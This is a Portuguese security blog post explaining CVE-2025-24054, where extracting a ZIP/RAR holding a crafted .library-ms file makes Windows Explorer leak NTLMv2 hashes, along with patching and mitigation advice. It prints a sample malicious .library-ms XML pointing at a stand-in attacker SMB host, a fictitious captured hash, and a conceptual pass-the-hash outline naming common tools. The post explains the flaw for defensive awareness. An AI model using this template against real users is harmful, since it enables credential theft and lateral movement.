 ```yaml
---
title: "Alerta de Segurança: Vazamento de Hash NTLM (CVE-2025-24054) ao Extrair Arquivos ZIP/RAR"
date: 2025-05-31T15:00:00-03:00 # << AJUSTE ESTA DATA E HORA PARA A PUBLICAÇÃO
description: "Entenda a vulnerabilidade CVE-2025-24054 que permite o vazamento de hashes NTLMv2 através de arquivos .library-ms maliciosos em arquivos ZIP ou RAR e como a Microsoft a corrigiu."
keywords: ["CVE-2025-24054", "NTLM Hash Leak", "Windows Explorer", "Vulnerabilidade", "Segurança Windows", "ZIP", "RAR", ".library-ms", "Patch Tuesday"]
author: "Hugo Robot" # Seu nome de autor
images: ["images/SemTitulo-1.png"]
draft: false

tags: ["CVE", "Segurança Windows", "Vulnerabilidade", "NTLM", "Microsoft"]
categories: ["Segurança Cibernética", "Alertas"]
---
```


Recentemente, uma vulnerabilidade interessante (originalmente referenciada como CVE-2025-24071, agora atualizada para **CVE-2025-24054**) foi detalhada, expondo como hashes NTLMv2 de usuários do Windows podem ser capturados por invasores através de um método engenhoso envolvendo arquivos compactados ZIP ou RAR.

Vamos entender como essa falha funciona e o que foi feito a respeito.

## O Que é a Vulnerabilidade CVE-2025-24054?

A falha reside na maneira como o **Windows Explorer** lida com arquivos de Biblioteca do Windows (`.library-ms`) quando eles são extraídos de um arquivo compactado (como `.zip` ou `.rar`).



Um invasor pode criar um arquivo `.library-ms` malicioso que contém um caminho apontando para um servidor SMB (Server Message Block) sob seu controle. Quando um usuário desavisado baixa um arquivo ZIP/RAR contendo este arquivo `.library-ms` e o extrai, o Windows Explorer tenta automaticamente processar e indexar o conteúdo da "biblioteca".

Ao encontrar o caminho SMB malicioso dentro do arquivo `.library-ms`, o Windows Explorer tenta se conectar a esse servidor. Durante essa tentativa de conexão, ocorre um handshake de autenticação NTLM (NT LAN Manager), e o **hash NTLMv2** do usuário é enviado para o servidor SMB do invasor.

## Impacto do Vazamento de Hash NTLMv2

Com o hash NTLMv2 da vítima em mãos, um invasor pode:

* **Tentar ataques de "Pass-the-Hash":** Em ambientes de rede corporativa, esses hashes podem ser usados para se autenticar em outros sistemas como se fosse o usuário legítimo, sem a necessidade de conhecer a senha original.
* **Tentar Quebra de Senha Offline:** O hash NTLMv2 pode ser submetido a ferramentas de cracking para tentar descobrir a senha de texto puro do usuário. A força da senha e a capacidade computacional do invasor influenciam o sucesso dessa tentativa.

## Sistemas Afetados

A vulnerabilidade afeta o **Windows Explorer** em versões do Windows que processam automaticamente arquivos `.library-ms`.

## Correção e Mitigação

A boa notícia é que a **Microsoft já corrigiu esta vulnerabilidade**. A correção foi disponibilizada no "Patch Tuesday" de Março. É crucial que os usuários do Windows mantenham seus sistemas atualizados com os últimos patches de segurança da Microsoft para se protegerem contra esta e outras ameaças.

Portanto, a principal recomendação é:
* **Aplique todas as atualizações de segurança do Windows o mais rápido possível.**

Manter-se informado sobre essas vulnerabilidades e aplicar as correções diligentemente são passos fundamentais para a segurança digital.

# Como o Ataque Funciona: O Apontamento SMB Malicioso
- 1. **Criação do Arquivo Malicioso**: Um invasor cria um arquivo `library-ms` especialmente modificado. Dentro deste arquivo XML, ele especifica um caminho para um local de rede que aponta para um servidor SMB sob seu controle.

    - **O que é SMB (Server Message Block)**? De forma rápida, SMB é um protocolo de rede usado principalmente pelo Windows para compartilhamento de arquivos, impressoras e outros recursos em uma rede. Quando você acessa uma pasta compartilhada como `\\NOMEDOSERVIDOR\pasta`, você está usando SMB.
- 2. **Exemplo de Conteúdo Malicioso no `.library-ms`**:
O arquivo `library-ms` pode conter algo como:

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="[http://schemas.microsoft.com/windows/2009/library](http://schemas.microsoft.com/windows/2009/library)">
    <name>Fotos Inocentes</name>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>file://///[servidor-do-atacante.com/recurso_malicioso](https://servidor-do-atacante.com/recurso_malicioso)</url>
                {{/* Outra variação poderia ser: <url>\\servidor-do-atacante.com\recurso_malicioso</url> */}}
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
A parte crucial é `<url>file://///servidor-do-atacante.com/recurso_malicioso</url>`, que instrui o Explorer a tentar acessar um compartilhamento SMB no servidor do atacante.

- 3. **Entrega e Extração**: O invasor comprime este arquivo .library-ms (e talvez outros arquivos isca) em um arquivo `.zip` ou `.rar` e o envia para a vítima (ex: via e-mail, download de site comprometido).
---
- 4. **A Mágica (Ruim) Acontece**: Quando o usuário desavisado baixa e extrai o conteúdo do arquivo ZIP/RAR, o Windows Explorer, ao processar o arquivo `.library-ms` recém-extraído (para indexação, pré-visualização, etc.), tenta se conectar automaticamente ao caminho SMB especificado.

- 5. **Vazamento do Hash**: Durante essa tentativa de conexão automática ao servidor SMB do atacante, o Windows envia as credenciais do usuário na forma de um handshake de autenticação NTLM. O servidor do atacante, que está esperando por isso, captura o **hash NTLMv2** do usuário.

**Usuário Fictício**: `MEUDOMINIO\UsuarioAlvo`
**Hash NTLMv2 Capturado (Exemplo Fictício)**: `UsuarioAlvo::MEUDOMINIO:1122334455667788:AABBCCDDEEFF00112233445566778899:0101000000000000009a8b7c6d5e4f3a0000000002000000...`

**Impacto do Vazamento de Hash NTLMv2**
Com o hash NTLMv2 da vítima em mãos, um invasor tem algumas opções perigosas:

- Tentar Quebra de Senha Offline: O hash NTLMv2 pode ser submetido a ferramentas de cracking (como Hashcat ou John the Ripper) em conjunto com listas de palavras (wordlists) e regras de mutação para tentar descobrir a senha de texto puro do usuário. A complexidade da senha original e a capacidade computacional do invasor determinam a chance de sucesso.

- **Ataques de "Pass-the-Hash" (PtH)**: Este é frequentemente o impacto mais direto e perigoso em ambientes corporativos.

**O que é um Ataque "Pass-the-Hash"**? Em um ataque PtH, o invasor não precisa conhecer a senha em texto puro. Em vez disso, ele usa o próprio hash NTLM roubado para se autenticar em outros sistemas e serviços na rede que aceitam autenticação NTLM.
- Exemplo Conceitual de Pass-the-Hash:
- 1. O atacante capturou o hash NTLMv2 de MEUDOMINIO\UsuarioAlvo.
- 2. O UsuarioAlvo também é administrador de um servidor importante na rede chamado "SERVIDOR_ALVO".
- 3. O atacante usa uma ferramenta (como PsExec do conjunto Sysinternals, ou ferramentas do framework Impacket ou Mimikatz) e fornece o hash NTLMv2 de UsuarioAlvo em vez de uma senha.
- 4. Se o "SERVIDOR_ALVO" aceitar autenticação NTLM e o hash for válido para UsuarioAlvo, o atacante ganha acesso ao "SERVIDOR_ALVO" com os privilégios de UsuarioAlvo (neste caso, administrador), sem nunca ter descoberto a senha real.

**Sistemas Afetados**

A vulnerabilidade afeta o Windows Explorer em versões do Windows que processam automaticamente arquivos `.library-ms` e ainda utilizam ou permitem fallback para autenticação NTLM em conexões SMB.

**Correção e Mitigação**

A boa notícia é que a Microsoft já corrigiu esta vulnerabilidade específica (CVE-2025-24054). A correção foi disponibilizada através das atualizações de segurança, provavelmente no "Patch Tuesday" de Março (conforme mencionado no artigo original).

*Recomendações Principais*:

- 1. *Mantenha o Windows Atualizado*: Aplique todas as atualizações de segurança da Microsoft o mais rápido possível. Esta é a defesa primária contra esta e muitas outras vulnerabilidades.
- 2. *Cautela com Arquivos Compactados*: Tenha cuidado ao baixar e extrair arquivos .zip ou .rar de fontes não confiáveis ou inesperadas.
- 3. *Configurações de Segurança de Rede (Para Ambientes Corporativos)*:
 - Considere desabilitar o NTLM e forçar o uso de Kerberos sempre que possível.
Implemente segmentação de rede e firewalls para restringir conexões SMB desnecessárias, especialmente para fora da rede local.
 - Monitore tentativas de autenticação NTLM suspeitas.

**Conclusão e Próximos Passos**

Vulnerabilidades como a CVE-2025-24054 destacam a importância de mecanismos de defesa em camadas e a necessidade de manter os sistemas atualizados. Embora o patch da Microsoft resolva este vetor específico, a compreensão de como os hashes NTLM podem ser explorados é crucial para a segurança em ambientes Windows.

*Ficou curioso para ver como um ataque de captura de hash NTLM funciona na prática e como um atacante poderia usar ferramentas como as do Kali Linux para explorar uma vulnerabilidade similar em um ambiente controlado?*

Não perca nosso próximo post: **"Explorando na Prática: Capturando Hashes NTLM com Kali Linux e VMs"**! Vamos montar um laboratório e demonstrar passo a passo. Fique ligado!



![Imagem no final da página](/images/SemTitulo-2.png>)
<img src="/images/SemTitulo-2.png" alt="Imagem final da página" style="max-width: 80%; height: auto; display: block; margin: 0 auto;">



---